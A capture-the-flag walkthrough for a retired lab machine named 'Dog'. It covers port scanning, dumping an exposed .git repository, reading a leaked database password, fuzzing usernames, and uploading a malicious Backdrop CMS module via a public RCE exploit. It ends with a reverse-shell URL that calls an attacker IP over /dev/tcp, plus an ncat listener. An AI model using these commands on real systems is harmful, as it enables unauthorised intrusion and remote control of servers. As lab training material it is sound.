










# Dog: Retired CTF


# Task 1:

### How many open TCP Ports are listening on Dog?

Run Nmap on <target> 

```bash
 nmap -sC -sV -p- 10.10.11.58 -oN scan.txt
```



**Answer: 2 (ports 22 and 80)**

# Task 2:

### What is the name of the directory on the root of the webserver that leaks the full source code of the application?

Since we ran the -sC (SCRIPT SCAN) flag on nmap, we were able to see that <u><target_IP>:80/.git/</u>  was found



**Answer: .git**

# Task 3:

### What is the CMS used to make the website on Dog? Include a space between two words.

If we go to the footer of the website we can see what type of CMS its using.



**Answer: Backdrop CMS**

# Task 4:

### What is the password the application uses to connect to the database?

We can dump the repository using gitdumper.

```bash
mkdir dump
virtualenv env
source env/bin/activate
pip3 install git-dumper
git-dumper http://10.10.11.58/.git/ dump

```

Once the dump is finish. cd into /dump/ and cat settings to see what sensitive information we can find.



**Answer: BackDropJ2024DS2024**

# Task 5:

### What user uses the DB password to log into the admin functionality of Backdrop CMS?

We found that it contains credential for MySQL; however, MySQL is not exposed. We need
to look for usernames. With some google search we can see that we can use ffuf to fuzz the /?q=accounts/ .

```bash
ffuf -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -u http://10.10.11.58/\?q=accounts/FUZZ -c -v -mc 403
```

Breakdown of the command above

> -w *<wordlist>*
-u *<URL>*
-c *Enumerate directories using [c]olored output and a [w]ordlist specifying a target [u]RL*
-v *Verbose output*
-mc 403 *Match HTTP status codes. Comma-separated list (e.g., 200,301).*
> 



Now we can try the usernames and the password from task 4 and luckily tiffany was the right username

**Answer: tiffany**

# Task 6:

### What system user is the Backdrop CMS instance running as on Dog?

Now we have access to the backdrop panel. So, lets look for an exploit, but first lets look for the version of the CMS. On task 4 we git-dumped and can look at the file testing.info

```bash
 cat dump/core/profiles/testing/testing.info
```



We can see the version is 1.27.1. now lets google for the exploit… Bingo we found [Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/52021) Download the exploit and go to the panel and on the functionality we click install new module. and click on install manually.
                            ****



We can see that it only supports tar, tgz, gz, and bz2. Lets create with the exploit we used.



now lets tar the file in order to upload it.

```bash
tar -czvf shell.tar.gz shell
```



we can now go to that module and run a reverse shell
http://10.10.11.58/modules/shell/shell.php?cmd=bash+-c+"bash+-i+>%26+%2Fdev%2Ftcp%2F10.10.15.36%2F1337+0>%261"
and run ncat -lvnp 1337 to listen

